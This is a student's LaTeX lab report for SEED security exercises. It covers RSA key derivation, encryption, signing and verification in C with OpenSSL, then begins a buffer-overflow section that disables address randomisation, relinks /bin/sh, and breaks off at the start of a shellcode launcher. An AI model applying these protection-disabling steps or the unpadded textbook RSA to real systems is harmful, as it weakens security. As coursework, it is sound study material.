\documentclass[12pt]{article}
\usepackage[margin=1in]{geometry}
\usepackage[utf8]{inputenc}
\usepackage{hyperref}
\usepackage{graphicx}
\usepackage{tikz}
\usepackage{tikz-qtree}
\usetikzlibrary{trees}
\usepackage{listings}
\usepackage{xcolor}
\usepackage{datetime}
\usepackage{framed}
\usepackage{upquote}
\usepackage{float}

\graphicspath{
    {images/}
}

\hypersetup{
    colorlinks=true,
    linkcolor=black,
    filecolor=magenta,      
    urlcolor=blue,
    citecolor=blue
}

% Both single quotes
\def\bsq#1{\lq{#1}\rq}

\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}

\lstdefinestyle{mystyle}{
    basicstyle=\ttfamily\footnotesize,
    commentstyle=\color{codegreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{codegray},
    stringstyle=\color{codepurple},
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=2
}

\lstset{
    style=mystyle,
    language=c,
    frame=single,
    numbers=none,
    escapeinside=||
}

\title{SEED Lab Report}
\author{Steven Yulong Yan}

\begin{document}

\newdate{date}{25}{09}{2020}
\date{\displaydate{date}}

\maketitle

\tableofcontents



\newpage

\section{Introduction}

\subsection{Set-up}

SEED Ubuntu16.04 VM (32-bit) Virtual Machine \cite{SEEDLabVM} is installed on
VirtualBox 6.0.24 \\
\textit{(released July 14 2020)} \cite{VirtualBox} with additional
configurations applied.

\subsection{Objective}
The goal of the tasks is to gain insight and first-hand experience in regards to:
\textbf{RSA Public-Key Encryptions and Signatures},
\textbf{Buffer Overflow Attacks} and
\textbf{Attacks On TCP/IP Protocol}.

\subsection{Duration}
The project was deveploped from 09/09/2020 until 25/09/2020.

\section{Completion}
All the 11 tasks listed are completed:

\begin{enumerate}
    \item RSA Public-Key Encryption and Signatures
          \begin{enumerate}
              \item Deriving the Private Key
              \item Encrypting a Message
              \item Decrypting a Message
              \item Signing a Message
              \item Verifying a Signature
          \end{enumerate}
    \item Buffer Overflow Attacks
          \begin{enumerate}
              \item Running Shellcode
              \item Exploiting Vulnerabilities
              \item Defeating \texttt{dash}’s Countermeasure
          \end{enumerate}
    \item TCP/IP Attacks
          \begin{enumerate}
              \item SYN Flooding Attacks
              \item TCP RSA Attacks on Telnet and SSH Connections
              \item TCP RST Attacks on Video Streaming Applications
          \end{enumerate}
\end{enumerate}



\newpage

\section{Milestones}

\subsection{RSA Public-Key Encryption and Signatures}

\subsubsection{Deriving the Private Key}

\begin{lstlisting}
#include <stdio.h>
#include <openssl/bn.h>

/**
* Use BN_bn2hex(a) for hex string and BN_bn2dec(a) for decimal string
* (Provided function)
*/
void printBN(char *msg, BIGNUM *a) {
    char *number_str = BN_bn2hex(a);
    printf("%s %s\n", msg, number_str);
    OPENSSL_free(number_str);
}

/**
* Derive the private key
*/ 
BIGNUM *get_private_key(BIGNUM *p, BIGNUM *q, BIGNUM *e) {
    // Initialise a BN_CTX structure that holds BIGNUM temporary variables
    BN_CTX *ctx = BN_CTX_new();

    // Initialise the totient for p
    BIGNUM *pMinusOne = BN_new();

    // Initialise the totient for q
    BIGNUM *qMinusOne = BN_new();

    BIGNUM *one = BN_new();
    BIGNUM *phi = BN_new();
    BIGNUM *gcdResult = BN_new();

    BN_dec2bn(&one, "1");

    // pMinusOne = p - 1
    BN_sub(pMinusOne, p, one);

    // qMinusOne = q - 1
    BN_sub(qMinusOne, q, one);

    // phi = pMinusOne * qMinusOne
    BN_mul(phi, pMinusOne, qMinusOne, ctx);

    // Exit the program if e and phi are not relatively prime
    BN_gcd(gcdResult, phi, e, ctx);
    if (!BN_is_one(gcdResult)) {
        printf("The public key e and phi are not relatively prime.");
        exit(0);
    }

    BIGNUM *inverseModResult = BN_new();
    
    // Computes the inverse of e modulo mulResult and 
    // places the result in inverseModResult
    BN_mod_inverse(inverseModResult, e, phi, ctx);

    // Frees the components of the BN_CTX structure
    BN_CTX_free(ctx);

    // Frees the components and structure of the BIGNUMs and
    // overwrites the data before the memory is returned to the system
    BN_clear_free(pMinusOne);
    BN_clear_free(qMinusOne);
    BN_clear_free(one);
    BN_clear_free(phi);
    BN_clear_free(gcdResult);

    return inverseModResult;
}

int main() {
    // Initialise a BN_CTX structure that holds BIGNUM temporary variables
    BN_CTX *ctx = BN_CTX_new();

    // Initialise two random big primes numbers 
    // p and q of similar size
    BIGNUM *primeP = BN_new();
    BIGNUM *primeQ = BN_new();

    // Assign the prime number p
    BN_hex2bn(&primeP, "F7E75FDC469067FFDC4E847C51F452DF");

    // Assign the prime number q
    BN_hex2bn(&primeQ, "E85CED54AF57E53E092113E62F436F4F");

    // Initialise a relatively small prime number exponent
    // e as a public key
    BIGNUM *primeE = BN_new();

    // Assign the public key e
    BN_hex2bn(&primeE, "0D88C3");

    // Calculate the private key
    BIGNUM *privateKey = get_private_key(primeP, primeQ, primeE);

    printBN("The private key is:", privateKey);

    // Frees the components of the BN_CTX structure
    BN_CTX_free(ctx);

    // Frees the components and structure of the BIGNUMs and
    // overwrites the data before the memory is returned to the system
    BN_clear_free(primeP);
    BN_clear_free(primeQ);
    BN_clear_free(primeE);
    BN_clear_free(privateKey);

    return 0;
}    
\end{lstlisting}

\begin{framed}
    \begin{verbatim}
> gcc filename.c -lcrypto
> ./a.out
The private key is: 3587A24598E5F2A21DB007D89D18CC50ABA5075BA19A33890FE7C
28A9B496AEB
    \end{verbatim}
\end{framed}

\newpage

\subsubsection{Encrypting a Message}

\begin{lstlisting}
#include <stdio.h>
#include <openssl/bn.h>

/**
* Use BN_bn2hex(a) for hex string and
* BN_bn2dec(a) for decimal string
* (Provided function)
*/
void printBN(char *msg, BIGNUM *a) {
    char *number_str = BN_bn2hex(a);
    printf("%s %s\n", msg, number_str);
    OPENSSL_free(number_str);
}

/**
* Message encryption
*/ 
BIGNUM *encrypt_message(BIGNUM *message, BIGNUM *e, BIGNUM *n) {
    // Initialise a BN_CTX structure that holds BIGNUM temporary variables
    BN_CTX *ctx = BN_CTX_new();
    
    BIGNUM *encryptedResult = BN_new();

    // Computes message to the e-th power modulo n
    // (encryptedResult = message^e % n)
    BN_mod_exp(encryptedResult, message, e, n, ctx);

    // Frees the components and structure of the BIGNUMs and
    // overwrites the data before the memory is returned to the system
    BN_CTX_free(ctx);

    return encryptedResult;
}

int main () {

    // Initiate the encrypted message
    BIGNUM *encryptedMessage = BN_new();

    // Initiate the public key n
    BIGNUM *publicKeyN = BN_new();

    // Assign the public key n
    BN_hex2bn(&publicKeyN,
    "DCBFFE3E51F62E09CE7032E2677A78946A849DC4CDDE3A4D0CB81629242FB1A5");

    // Initiate the public key exponent e
    BIGNUM *exponentE = BN_new();

    // Assign the public key exponent e
    BN_hex2bn(&exponentE, "010001");

    // > python -c 'print("A top secret!".encode("hex"))'
    // 4120746f702073656372657421
    BIGNUM *message = BN_new();
    BN_hex2bn(&message, "4120746f702073656372657421");

    // Encrypt the message
    encryptedMessage = encrypt_message(message, exponentE, publicKeyN);

    printBN("The encrypted message is:", encryptedMessage);

    // Frees the components and structure of the BIGNUMs and
    // overwrites the data before the memory is returned to the system            
    BN_clear_free(encryptedMessage); 
    BN_clear_free(publicKeyN); 
    BN_clear_free(exponentE);
    BN_clear_free(message);

    return 0;
}
\end{lstlisting}

\begin{framed}
    \begin{verbatim}
> gcc filename.c -lcrypto
> ./a.out
The encrypted message is: 6FB078DA550B2650832661E14F4F8D2CFAEF475A0DF3A75
CACDC5DE5CFC5FADC
    \end{verbatim}
\end{framed}



\newpage

\noindent
To verify the encryption process we decrypt the result with the given private key:

\begin{lstlisting}
#include <stdio.h>
#include <string.h>
#include <openssl/bn.h>

/**
* Use BN_bn2hex(a) for hex string and
* BN_bn2dec(a) for decimal string
* (Provided function)
*/
void printBN(char *msg, BIGNUM *a) {
    char *number_str = BN_bn2hex(a);
    printf("%s %s\n", msg, number_str);
    OPENSSL_free(number_str);
}

/**
* Convert from hex to int
*/
int hex_to_int(char c) {
    if (c >= 97)
        c = c - 32;
    int first = c / 16 - 3;
    int second = c % 16;
    int result = first * 10 + second;
    if (result > 9) {
        result--;
    }
    return result;
}

/**
* Convert from hex to ASCII
*/
int hex_to_ascii(const char c, const char d) {
    int high = hex_to_int(c) * 16;
    int low = hex_to_int(d);
    return high + low;
}

/**
* Convert the hex string to readable text
*/
void hex_to_text(const char *string) {
    // Record string length (#include <string.h>)
    int length = strlen(string);

    // Check valid hex string length
    if (length % 2 != 0) {
        printf("The input hex string is of invalid length");
        exit(0);
    }

    // Initialise iterator and buffer
    int i;
    char buffer = 0;

    // Iterate over the given hex string and
    // alternate between the high-order and low-order bytes
    for (i = 0; i < length; i++) {
        // In hex we need two digits (i.e. 8 binary digits) to represent a byte
        // We convert to ASCII at every second position and
        // store the digit in the buffer otherwise
        if (i % 2 != 0)
            printf("%c", hex_to_ascii(buffer, string[i]));
        else
            buffer = string[i];
    }
    printf("\n");
}

/**
* Message decryption
*/
BIGNUM *decrypt_message(BIGNUM *message, BIGNUM *d, BIGNUM *n) {
    // Initialise a BN_CTX structure that holds BIGNUM temporary variables
    BN_CTX *ctx = BN_CTX_new();
    BIGNUM *decryptedResult = BN_new();

    // Computes message to the d-th power modulo n
    // (encryptedResult = message^d % n)
    BN_mod_exp(decryptedResult, message, d, n, ctx);

    // Frees the components and structure of the BIGNUMs and
    // overwrites the data before the memory is returned to the system
    BN_CTX_free(ctx);

    return decryptedResult;
}

int main () {
    // Initialise the private key d
    BIGNUM *privateKeyD = BN_new();

    // Assign the private key d
    BN_hex2bn(&privateKeyD, "74D806F9F3A62BAE331FFE3F0A68AFE35B3D2E4794148AACBC26AA381CD7D30D");

    // Initialise the public key n
    BIGNUM *publicKeyN = BN_new();
    BN_hex2bn(&publicKeyN, "DCBFFE3E51F62E09CE7032E2677A78946A849DC4CDDE3A4D0CB81629242FB1A5");

    BIGNUM *encryptedMessage = BN_new();

    // Use the value we just calculated
    BN_hex2bn(&encryptedMessage, "6FB078DA550B2650832661E14F4F8D2CFAEF475A0DF3A75CACDC5DE5CFC5FADC");

    BIGNUM *decryptedMessage = BN_new();

    decryptedMessage = decrypt_message(encryptedMessage, privateKeyD, publicKeyN);

    // Print the result
    printf("The decrypted message is: ");
    hex_to_text(BN_bn2hex(decryptedMessage));
    printf("Therefore, the encryption result is verified.\n");

    // Frees the components and structure of the BIGNUMs and
    // overwrites the data before the memory is returned to the system            
    BN_clear_free(privateKeyD); 
    BN_clear_free(publicKeyN); 
    BN_clear_free(encryptedMessage);
    BN_clear_free(decryptedMessage);

    return 0;    
}
\end{lstlisting}

\begin{framed}
    \begin{verbatim}
> gcc filename.c -lcrypto
> ./a.out
The decrypted message is: A top secret!
Therefore, the encryption result is verified.
    \end{verbatim}
\end{framed}



\newpage

\subsubsection{Decrypting a Message}

\begin{lstlisting}
#include <stdio.h>
#include <string.h>
#include <openssl/bn.h>

/**
* Use BN_bn2hex(a) for hex string and
* BN_bn2dec(a) for decimal string
* (Provided function)
*/
void printBN(char *msg, BIGNUM *a) {
    char *number_str = BN_bn2hex(a);
    printf("%s %s\n", msg, number_str);
    OPENSSL_free(number_str);
}

/**
* Convert from hex to int
*/
int hex_to_int(char c) {
    if (c >= 97)
        c = c - 32;
    int first = c / 16 - 3;
    int second = c % 16;
    int result = first * 10 + second;
    if (result > 9) {
        result--;
    }
    return result;
}

/**
* Convert from hex to ASCII
*/
int hex_to_ascii(const char c, const char d) {
    int high = hex_to_int(c) * 16;
    int low = hex_to_int(d);
    return high + low;
}

/**
* Convert the hex string to readable text
*/
void hex_to_text(const char *string) {
    // Record string length (#include <string.h>)
    int length = strlen(string);

    // Check valid hex string length
    if (length % 2 != 0) {
        printf("The input hex string is of invalid length");
        exit(0);
    }

    // Initialise iterator and buffer
    int i;
    char buffer = 0;

    // Iterate over the given hex string and
    // alternate between the high-order and low-order bytes
    for (i = 0; i < length; i++) {
        // In hex we need two digits (i.e. 8 binary digits) to represent a byte
        // We convert to ASCII at every second position and
        // store the digit in the buffer otherwise
        if (i % 2 != 0)
            printf("%c", hex_to_ascii(buffer, string[i]));
        else
            buffer = string[i];
    }
    printf("\n");
}

/**
* Message decryption
*/
BIGNUM *decrypt_message(BIGNUM *message, BIGNUM *d, BIGNUM *n) {
    // Initialise a BN_CTX structure that holds BIGNUM temporary variables
    BN_CTX *ctx = BN_CTX_new();
    BIGNUM *decryptedResult = BN_new();

    // Computes message to the d-th power modulo n
    // (encryptedResult = message^d % n)
    BN_mod_exp(decryptedResult, message, d, n, ctx);

    // Frees the components and structure of the BIGNUMs and
    // overwrites the data before the memory is returned to the system
    BN_CTX_free(ctx);

    return decryptedResult;
}

int main () {
    // Initialise the private key d
    BIGNUM *privateKeyD = BN_new();

    // Assign the private key d
    BN_hex2bn(&privateKeyD, "74D806F9F3A62BAE331FFE3F0A68AFE35B3D2E4794148AACBC26AA381CD7D30D");

    // Initialise the public key n
    BIGNUM *publicKeyN = BN_new();
    BN_hex2bn(&publicKeyN, "DCBFFE3E51F62E09CE7032E2677A78946A849DC4CDDE3A4D0CB81629242FB1A5");

    // Initialise the encrypted message
    BIGNUM *encryptedMessage = BN_new();

    // Assign the encrypted message
    BN_hex2bn(&encryptedMessage, "8C0F971DF2F3672B28811407E2DABBE1DA0FEBBBDFC7DCB67396567EA1E2493F");

    BIGNUM *decryptedMessage = BN_new();

    // Decrypt the message
    decryptedMessage = decrypt_message(encryptedMessage, privateKeyD, publicKeyN);

    // Print the result
    printf("The decrypted message is: ");
    hex_to_text(BN_bn2hex(decryptedMessage));

    // Frees the components and structure of the BIGNUMs and
    // overwrites the data before the memory is returned to the system            
    BN_clear_free(privateKeyD); 
    BN_clear_free(publicKeyN); 
    BN_clear_free(encryptedMessage);
    BN_clear_free(decryptedMessage);

    return 0;    
}    
\end{lstlisting}

\begin{framed}
    \begin{verbatim}
> gcc filename.c -lcrypto
> ./a.out
The decrypted message is: Password is dees
    \end{verbatim}
\end{framed}



\newpage

\subsubsection{Signing a Message}

\begin{center}
    M = I owe you \$$2000$.
\end{center}

\begin{lstlisting}
#include <stdio.h>
#include <string.h>
#include <openssl/bn.h>

/**
* Use BN_bn2hex(a) for hex string and
* BN_bn2dec(a) for decimal string
* (Provided function)
*/
void printBN(char *msg, BIGNUM *a) {
    char *number_str = BN_bn2hex(a);
    printf("%s %s\n", msg, number_str);
    OPENSSL_free(number_str);
}

/**
* Convert from hex to int
*/
int hex_to_int(char c) {
    if (c >= 97)
        c = c - 32;
    int first = c / 16 - 3;
    int second = c % 16;
    int result = first * 10 + second;
    if (result > 9) {
        result--;
    }
    return result;
}

/**
* Convert from hex to ASCII
*/
int hex_to_ascii(const char c, const char d) {
    int high = hex_to_int(c) * 16;
    int low = hex_to_int(d);
    return high + low;
}

/**
* Convert the hex string to readable text
*/
void hex_to_text(const char *string) {
    // Record string length (#include <string.h>)
    int length = strlen(string);

    // Check valid hex string length
    if (length % 2 != 0) {
        printf("The input hex string is of invalid length");
        exit(0);
    }

    // Initialise iterator and buffer
    int i;
    char buffer = 0;

    // Iterate over the given hex string and
    // alternate between the high-order and low-order bytes
    for (i = 0; i < length; i++) {
        // In hex we need two digits (i.e. 8 binary digits) to represent a byte
        // We convert to ASCII at every second position and
        // store the digit in the buffer otherwise
        if (i % 2 != 0)
            printf("%c", hex_to_ascii(buffer, string[i]));
        else
            buffer = string[i];
    }
    printf("\n");
}

/**
* Message encryption
*/ 
BIGNUM *encrypt_message(BIGNUM *message, BIGNUM *e, BIGNUM *n) {
    // Initialise a BN_CTX structure that holds BIGNUM temporary variables
    BN_CTX *ctx = BN_CTX_new();
    
    BIGNUM *encryptedResult = BN_new();

    // Computes message to the e-th power modulo n
    // (encryptedResult = message^e % n)
    BN_mod_exp(encryptedResult, message, e, n, ctx);

    // Frees the components and structure of the BIGNUMs and
    // overwrites the data before the memory is returned to the system
    BN_CTX_free(ctx);

    return encryptedResult;
}

/**
* Message decryption
*/
BIGNUM *decrypt_message(BIGNUM *message, BIGNUM *d, BIGNUM *n) {
    // Initialise a BN_CTX structure that holds BIGNUM temporary variables
    BN_CTX *ctx = BN_CTX_new();
    BIGNUM *decryptedResult = BN_new();

    // Computes message to the d-th power modulo n
    // (encryptedResult = message^d % n)
    BN_mod_exp(decryptedResult, message, d, n, ctx);

    // Frees the components and structure of the BIGNUMs and
    // overwrites the data before the memory is returned to the system
    BN_CTX_free(ctx);

    return decryptedResult;
}

int main () {
    // Initialise the private key d
    BIGNUM *privateKeyD = BN_new();

    // Assign the private key d
    BN_hex2bn(&privateKeyD, "74D806F9F3A62BAE331FFE3F0A68AFE35B3D2E4794148AACBC26AA381CD7D30D");

    // Initialise the public key n
    BIGNUM *publicKeyN = BN_new();
    BN_hex2bn(&publicKeyN, "DCBFFE3E51F62E09CE7032E2677A78946A849DC4CDDE3A4D0CB81629242FB1A5");

    BIGNUM *message = BN_new();
    BN_hex2bn(&message, "49206f776520796f752024323030302e");

    // Assign the public exponent e
    BIGNUM *exponentE = BN_new();
    BN_hex2bn(&exponentE, "010001");

    // Initialise the encrypted message
    BIGNUM *encryptedMessage = BN_new();

    // Generate signature: message^privateKeyD mod publicKeyN
    encryptedMessage = encrypt_message(message, privateKeyD, publicKeyN);
    printBN("The signature is:", encryptedMessage);

    // Initialise the decrypted message
    BIGNUM *decryptedMessage = BN_new();

    // Decrypt the message
    decryptedMessage = decrypt_message(encryptedMessage, exponentE, publicKeyN);

    printf("The decrypted message is: ");
    hex_to_text(BN_bn2hex(decryptedMessage));

    // Frees the components and structure of the BIGNUMs and
    // overwrites the data before the memory is returned to the system            
    BN_clear_free(privateKeyD); 
    BN_clear_free(publicKeyN);
    BN_clear_free(message);
    BN_clear_free(encryptedMessage);
    BN_clear_free(decryptedMessage);

    return 0;    
}    
\end{lstlisting}

\begin{framed}
    \begin{verbatim}
> gcc filename.c -lcrypto
> ./a.out
The signature is: 55A4E7F17F04CCFE2766E1EB32ADDBA890BBE92A6FBE2D785ED6E73
CCB35E4CB
The decrypted message is: I owe you $2000.
    \end{verbatim}
\end{framed}



\newpage

\begin{center}
    M = I owe you \$$3000$.
\end{center}

\begin{lstlisting}
#include <stdio.h>
#include <string.h>
#include <openssl/bn.h>

/**
* Use BN_bn2hex(a) for hex string and
* BN_bn2dec(a) for decimal string
* (Provided function)
*/
void printBN(char *msg, BIGNUM *a) {
    char *number_str = BN_bn2hex(a);
    printf("%s %s\n", msg, number_str);
    OPENSSL_free(number_str);
}

/**
* Convert from hex to int
*/
int hex_to_int(char c) {
    if (c >= 97)
        c = c - 32;
    int first = c / 16 - 3;
    int second = c % 16;
    int result = first * 10 + second;
    if (result > 9) {
        result--;
    }
    return result;
}

/**
* Convert from hex to ASCII
*/
int hex_to_ascii(const char c, const char d) {
    int high = hex_to_int(c) * 16;
    int low = hex_to_int(d);
    return high + low;
}

/**
* Convert the hex string to readable text
*/
void hex_to_text(const char *string) {
    // Record string length (#include <string.h>)
    int length = strlen(string);

    // Check valid hex string length
    if (length % 2 != 0) {
        printf("The input hex string is of invalid length");
        exit(0);
    }

    // Initialise iterator and buffer
    int i;
    char buffer = 0;

    // Iterate over the given hex string and
    // alternate between the high-order and low-order bytes
    for (i = 0; i < length; i++) {
        // In hex we need two digits (i.e. 8 binary digits) to represent a byte
        // We convert to ASCII at every second position and
        // store the digit in the buffer otherwise
        if (i % 2 != 0)
            printf("%c", hex_to_ascii(buffer, string[i]));
        else
            buffer = string[i];
    }
    printf("\n");
}

/**
* Message encryption
*/ 
BIGNUM *encrypt_message(BIGNUM *message, BIGNUM *e, BIGNUM *n) {
    // Initialise a BN_CTX structure that holds BIGNUM temporary variables
    BN_CTX *ctx = BN_CTX_new();
    
    BIGNUM *encryptedResult = BN_new();

    // Computes message to the e-th power modulo n
    // (encryptedResult = message^e % n)
    BN_mod_exp(encryptedResult, message, e, n, ctx);

    // Frees the components and structure of the BIGNUMs and
    // overwrites the data before the memory is returned to the system
    BN_CTX_free(ctx);

    return encryptedResult;
}

/**
* Message decryption
*/
BIGNUM *decrypt_message(BIGNUM *message, BIGNUM *d, BIGNUM *n) {
    // Initialise a BN_CTX structure that holds BIGNUM temporary variables
    BN_CTX *ctx = BN_CTX_new();
    BIGNUM *decryptedResult = BN_new();

    // Computes message to the d-th power modulo n
    // (encryptedResult = message^d % n)
    BN_mod_exp(decryptedResult, message, d, n, ctx);

    // Frees the components and structure of the BIGNUMs and
    // overwrites the data before the memory is returned to the system
    BN_CTX_free(ctx);

    return decryptedResult;
}

int main () {
    // Initialise the private key d
    BIGNUM *privateKeyD = BN_new();

    // Assign the private key d
    BN_hex2bn(&privateKeyD, "74D806F9F3A62BAE331FFE3F0A68AFE35B3D2E4794148AACBC26AA381CD7D30D");

    // Initialise the public key n
    BIGNUM *publicKeyN = BN_new();
    BN_hex2bn(&publicKeyN, "DCBFFE3E51F62E09CE7032E2677A78946A849DC4CDDE3A4D0CB81629242FB1A5");

    BIGNUM *message = BN_new();
    BN_hex2bn(&message, "49206f776520796f752024333030302e");

    // Assign the public exponent e
    BIGNUM *exponentE = BN_new();
    BN_hex2bn(&exponentE, "010001");

    // Initialise the encrypted message
    BIGNUM *encryptedMessage = BN_new();

    // Generate signature: message^privateKeyD mod publicKeyN
    encryptedMessage = encrypt_message(message, privateKeyD, publicKeyN);

    printBN("The signature is:", encryptedMessage);

    // Initialise the decrypted message
    BIGNUM *decryptedMessage = BN_new();

    // Decrypt the message
    decryptedMessage = decrypt_message(encryptedMessage, exponentE, publicKeyN);

    printf("The decrypted message is: ");
    hex_to_text(BN_bn2hex(decryptedMessage));

    // Frees the components and structure of the BIGNUMs and
    // overwrites the data before the memory is returned to the system            
    BN_clear_free(privateKeyD); 
    BN_clear_free(publicKeyN);
    BN_clear_free(message);
    BN_clear_free(encryptedMessage);
    BN_clear_free(decryptedMessage);

    return 0;    
}
\end{lstlisting}

\begin{framed}
    \begin{verbatim}
> gcc filename.c -lcrypto
> ./a.out
The signature is: BCC20FB7568E5D48E434C387C06A6025E90D29D848AF9C3EBAC0135
D99305822
The decrypted message is: I owe you $3000.
    \end{verbatim}
\end{framed}

\noindent
We can observe from the above that although there is only the difference of
one byte in the encoded message their signatures are completely different.

\begin{framed}
    \begin{verbatim}
> python -c 'print("I owe you $2000.".encode("hex"))'
49206f776520796f752024323030302e
> python -c 'print("I owe you $3000.".encode("hex"))'
49206f776520796f752024333030302e
    \end{verbatim}
    \begin{lstlisting}[frame=none]
49206f776520796f7520243|\textcolor{red}{2}|3030302e
49206f776520796f7520243|\textcolor{red}{3}|3030302e
    \end{lstlisting}
\end{framed}



\newpage

\subsubsection{Verifying a Signature}

\begin{lstlisting}
#include <stdio.h>
#include <string.h>
#include <openssl/bn.h>

/**
 * Use BN_bn2hex(a) for hex string and
 * BN_bn2dec(a) for decimal string
 * (Provided function)
*/
void printBN(char *msg, BIGNUM *a) {
    char *number_str = BN_bn2hex(a);
    printf("%s %s\n", msg, number_str);
    OPENSSL_free(number_str);
}

/**
 * Convert from hex to int
 */
int hex_to_int(char c) {
    if (c >= 97)
        c = c - 32;
    int first = c / 16 - 3;
    int second = c % 16;
    int result = first * 10 + second;
    if (result > 9) {
        result--;
    }
    return result;
}

/**
 * Convert from hex to ASCII
 */
int hex_to_ascii(const char c, const char d) {
    int high = hex_to_int(c) * 16;
    int low = hex_to_int(d);
    return high + low;
}

/**
 * Convert the hex string to readable text
 */
void hex_to_text(const char *string) {
    // Record string length (#include <string.h>)
    int length = strlen(string);

    // Check valid hex string length
    if (length % 2 != 0) {
        printf("The input hex string is of invalid length");
        exit(0);
    }

    // Initialise iterator and buffer
    int i;
    char buffer = 0;

    // Iterate over the given hex string and
    // alternate between the high-order and low-order bytes
    for (i = 0; i < length; i++) {
        // In hex we need two digits (i.e. 8 binary digits) to represent a byte
        // We convert to ASCII at every second position and
        // store the digit in the buffer otherwise
        if (i % 2 != 0)
            printf("%c", hex_to_ascii(buffer, string[i]));
        else
            buffer = string[i];
    }
    printf("\n");
}

/**
 * Message decryption
 */
BIGNUM *decrypt_message(BIGNUM *message, BIGNUM *d, BIGNUM *n) {
    // Initialise a BN_CTX structure that holds BIGNUM temporary variables
    BN_CTX *ctx = BN_CTX_new();
    BIGNUM *decryptedResult = BN_new();

    // Computes message to the d-th power modulo n
    // (encryptedResult = message^d % n)
    BN_mod_exp(decryptedResult, message, d, n, ctx);

    // Frees the components and structure of the BIGNUMs and
    // overwrites the data before the memory is returned to the system
    BN_CTX_free(ctx);

    return decryptedResult;
}

int main () {
    // Initialise the public key n
    BIGNUM *publicKeyN = BN_new();
    BN_hex2bn(&publicKeyN, "AE1CD4DC432798D933779FBD46C6E1247F0CF1233595113AA51B450F18116115");

    // Assign the public exponent e
    BIGNUM *exponentE = BN_new();
    BN_hex2bn(&exponentE, "010001");

    // Initialise the signature
    BIGNUM *signature = BN_new();
    BN_hex2bn(&signature, "643D6F34902D9C7EC90CB0B2BCA36C47FA37165C0005CAB026C0542CBDB6802F");

    // Initialise the decrypted message
    BIGNUM *decryptedMessage = BN_new();
    
    // Decrypt the signature
    decryptedMessage = decrypt_message(signature, exponentE, publicKeyN);
    printf("The signature from Alice is: ");
    hex_to_text(BN_bn2hex(decryptedMessage));
    printf("Therefore, we have verified that the signature is indeed from Alice.\n");

    // Initialise the corrupted signature
    BIGNUM *corruptedSignature = BN_new();
    BN_hex2bn(&corruptedSignature, "643D6F34902D9C7EC90CB0B2BCA36C47FA37165C0005CAB026C0542CBDB6803F");

    BIGNUM *decryptedCorruptedMessage = BN_new();

    // Decrypt the corrupted signature
    decryptedCorruptedMessage = decrypt_message(corruptedSignature, exponentE, publicKeyN);
    printf("Next we corrupt the signature and try decrypting again...\n");
    printf("Now we can see the corrupted result:\n");
    hex_to_text(BN_bn2hex(decryptedCorruptedMessage));
    printf("\n");

    // Frees the components and structure of the BIGNUMs and
    // overwrites the data before the memory is returned to the system            
    BN_clear_free(publicKeyN);
    BN_clear_free(exponentE);
    BN_clear_free(signature);
    BN_clear_free(decryptedMessage);
    BN_clear_free(corruptedSignature);
    BN_clear_free(decryptedCorruptedMessage);

    return 0;    
}
\end{lstlisting}

\begin{framed}
    \begin{verbatim}
> gcc filename.c -lcrypto
> ./a.out
The signature from Alice is: Launch a missile.
Therefore, we have verified that the signature is indeed from Alice.
Next we corrupt the signature and try decrypting again...
Now we can see the corrupted result:
    \end{verbatim}
    
\includegraphics{rsa-corrupted.png}
\end{framed}
\noindent
We can observe that the decrypted message from the corrupt signature is
far from legible even though there is only one byte of the signature changed.



\newpage

\subsection{Buffer Overflow Attacks}
Buffer overflows are common occurrences of security vulnerability in languages for
embedded systems such as C/C++. To understand how buffer overflow attacks work we
need to understand the circumstances where they are observed and ways in which an
attack can be performed.
\\[0.2in]
Simply put, a buffer overflow occurs when we are writing data to a buffer and
we end up writing more data than the buffer allows. This is bad because when
a buffer overflow happens the extra data that we are writing ends up
overwriting adjacent memory locations such as the return address,
the function parameters, the shellcode, etc. The basic tactic of a
buffer overflow attack is that if we can overwrite the return address then
when the function returns we can have it redirected to the shellcode.
\\[0.2in]
A major goal of this buffer overflow section is to launch the root shell.
The crucial part is finding and filling the location of the return address
so that the program control jumps to the correct location,
eventually executing the shellcode.

\vspace{0.2in}

\begin{center}
    \textbf{Turning off Address Randomisation}
\end{center}

\begin{framed}
    \begin{verbatim}
sudo sysctl -w kernel.randomize_va_space=0
    \end{verbatim}
\end{framed}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{bf-disable-rand.png}
\end{figure}

\vspace{0.2in}

\begin{center}
    \textbf{Configuring /bin/sh for Ubuntu 16.04}
\end{center}

\begin{framed}
    \begin{verbatim}
sudo ln -sf /bin/zsh /bin/sh
    \end{verbatim}
\end{framed}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{bf-configure-shell.png}
\end{figure}



\newpage

\subsubsection{Running Shellcode}
To perform the attack we need have shellcode loaded into our memory.
The program shown below is what we will use to pass shellcode that launches a new shell.
The statement \textbf{((void(*)( ))buf)()} in the main function will invoke a shell
when the program is executed.

\begin{lstlisting}
/* call_shellcode.c */
/* A program that launches a shell using shellcode */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

const char code[] =
